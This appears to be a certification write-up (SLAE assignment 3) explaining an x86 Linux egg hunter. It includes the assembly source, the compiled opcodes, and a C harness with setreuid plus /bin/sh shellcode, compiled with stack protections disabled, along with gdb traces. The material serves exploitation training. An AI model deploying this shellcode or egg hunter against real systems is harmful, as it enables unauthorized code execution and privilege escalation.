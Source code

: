 # Assignment 3 #

This third exercise is about coding an "Egg Hunter shellcode". This is a way to compensate the lack of memory necessary in order to add up the shellcode in memory. The program searches in memory a sequence indicating the beginning of the shellcode. This sequence must be a series of opcodes that are unlikely to be contiguous so easy to recognize. As we are on a 32 bits architecture we shall use a 4 bytes key (Egg Key).

Source :  
[https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)
[http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)


In order to improve the chances to find it, it is advisable to double its size.

## EggKey definition ##

We are going to use the key "b33fb33f". This choice is arbitrary, it’s a pattern easy to identify and that has few chances of existting out of this context.

The Egg hunter program will browse the memory looking for the key previously defined. When it will try to access to a non-mapped memory area this will cause a system error (SIGSEV). It is thus necessary to know an address reachable in the same segment for the shellcode and the key.

The idea is presented in the below description.

```c
[egg hunter][random memory][egg][shellcode]
````

We are going to create a EggHunter whose function will be to search for the key in the memory. It is necessary to be sure to be in the right segment. 

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

We compile all of it:

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Then we are going to modify the C program so that it takes into account the shellcode, the Egg key and the Egg hunter.

We use the shellcode from assignment 6. It executes a setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f" // EggKey
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

The compilation runs the same way:

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

We test all of it:

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./eggHunter_test
Taille de l'Egg Hhunter 20
Adresse du Shellcode: 0x804a060
$ 
```

### Détails : ###

The egg Hunter works as follows:
We notice the address got from the pop eax. It is valid and will be used as start off for the search.

Once the key is found, we make a leap to this address which is the beginning of the shellcode.

```c
EAX: 0x8048074 --> 0x0           ; valid address from jump pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>

We observe in the stack the key in the egg as well as at the beginning of the shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

StudentID - SLAE-3763
